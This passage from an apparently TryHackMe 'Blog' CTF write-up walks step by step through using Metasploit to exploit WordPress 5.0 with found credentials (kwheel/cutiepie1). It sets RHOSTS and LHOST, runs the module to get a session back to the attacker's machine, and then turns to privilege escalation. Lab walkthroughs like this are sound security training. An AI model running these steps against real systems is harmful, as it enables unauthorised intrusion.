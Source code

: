 ### **- Now with the help of METASPLOIT we will use this vulnerability to gain access to the victim machine.**
```bash
msfdb init && msfconsole
```
```bash
msfdb init → Initializes the Metasploit database.
- Sets up a PostgreSQL database for Metasploit.
- Allows you to store results, track exploited hosts, and improve search performance.

&& → Runs the second command only if the first one succeeds.

msfconsole → Starts the Metasploit console (msfconsole).
This is the main interface for searching, configuring, and executing exploits.
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e8d50d09-ecc8-4088-a44f-2ef821750154"></picture><br></h3>

### **- Now we will look for a sploit to be able to breach WordPress 5.0:**

```bash
search wordpress 5.0
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7d759611-6a36-4730-9360-1b6c5991a5cc"></picture><br></h3>

### **- Now we will select our sploit and configure it as requested:**

```bash
use 0
show options
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/0d6c8c84-6fc8-4652-86b1-659462ccfdd9"></picture><br>As shown in the image we are asked for certain information that we already possess</h3>

### **- We enter the information:**

```bash
set PASSWORD cutiepie1
set RHOSTS blog.thm
set USERNAME kwheel
set LHOST 10.21.118.81
```
```bash
show options
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/c551ccd2-adca-43b2-832a-ae36fd829d6d"></picture><br>now we only have to run the sploit</h3>

```bash
run
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/f28b17bb-98ac-4f3e-b014-ca69f3297bda"></picture><br>Now we have to do some research to find a way to escalate privileges.</h3>

